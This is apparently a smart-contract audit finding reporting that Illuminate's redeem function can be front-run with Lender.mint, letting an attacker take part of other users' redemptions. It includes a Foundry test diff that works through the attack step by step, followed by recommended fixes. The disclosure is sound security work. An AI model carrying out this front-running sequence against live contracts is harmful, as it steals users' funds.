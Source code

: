 Holmgren

high

# Users' redemptions of Illuminate can be hijacked by front-running and minting more Illuminate

## Summary

`Redeemer.redeem(...)` (Illuminate variant) is vulnerable to frontrunning with `Lender.mint(...)`.

## Vulnerability Detail

Assume that an attacker noticed a pending transaction by an honest user to `redeem()` Illuminate tokens. The attacker can front-run this transaction and quickly mint more Illuminate tokens for the given underlier and maturity, thus increasing the total supply of such tokens without increasing `Redeemer`'s `holdings`. The honest user will receive less than his fair share of the `Redeemer`'s holdings for that underlier and maturity. The attacker can then `redeem()` the external principal token for which he had minted Illuminate. He will then be able to `redeem()` his Illuminate tokens for an inflated amount of the underlying.

## Impact

Any attacker sophisticated enough to perform front-running can steal part of other users' redemptions.

## Code Snippet
PoC:
```diff
diff --git a/test/fork/Redeemer.t.sol b/test/fork/Redeemer.t.sol
index 5866ea2..03fd710 100644
--- a/test/fork/Redeemer.t.sol
+++ b/test/fork/Redeemer.t.sol
@@ -103,7 +103,7 @@ contract RedeemerTest is Test {
         vm.startPrank(msg.sender);
     }
 
-    function testIlluminateRedeem() public {
+    function testIlluminateRedeem_frontrun() public {
         // deploy market
         deployMarket(Contracts.USDC, 0);
 
@@ -119,7 +119,7 @@ contract RedeemerTest is Test {
 
             // approve lender to transfer principal tokens
             vm.startPrank(address(l));
-            IERC20(principalToken).approve(address(r), startingBalance);
+            IERC20(principalToken).approve(address(r), type(uint256).max);
             vm.stopPrank();
 
             vm.startPrank(msg.sender);
@@ -132,18 +132,31 @@ contract RedeemerTest is Test {
         address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
         deal(illuminateToken, msg.sender, startingBalance, true);
 
-        // run the contract from msg.sender
-        vm.startPrank(msg.sender);
+        address attacker = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
+        // The attacker has some external Principal Tokens to begin with
+        deal(Contracts.YIELD_TOKEN, attacker, startingBalance);
 
-        // execute the redemption
+        // The attacker front-runs and inserts this transaction
+        vm.startPrank(attacker);
+        IERC20(Contracts.YIELD_TOKEN).approve(address(l), type(uint256).max);
+        l.mint(2, Contracts.USDC, maturity, startingBalance);
+        vm.stopPrank();
+
+        // The original legitimate transaction that attacker has front-ran
+        vm.startPrank(msg.sender);
         r.redeem(Contracts.USDC, maturity);
         vm.stopPrank();
 
-        // verify user received their tokens
-        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance);
+        // The second transaction perfromed by attacker - after the original user's transaction
+        vm.startPrank(attacker);
+        r.redeem(2, Contracts.USDC, maturity);
+        r.redeem(Contracts.USDC, maturity);
+        vm.stopPrank();
 
-        // verify that the user's illuminate tokens were burned
-        assertEq(IERC20(illuminateToken).balanceOf(msg.sender), 0);
+        // The user received only half of his fair share of the underlying
+        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance/2);
+        // The attacker received 150% of his fair share of the underlying
+        assertEq(IERC20(Contracts.USDC).balanceOf(attacker), startingBalance * 3/2);
     }
 
     // note these tests are not passing because the contract is paused on mainnet
```
## Tool used

Manual Review

## Recommendation

* Disallow minting new Illuminate Tokens at or after maturity. Not only in `Lender.mint()` but also in all the variants of `Lender.lend(...)`
* Add another argument to `redeem()`: minimum acceptable amount of the underlying received by the caller.
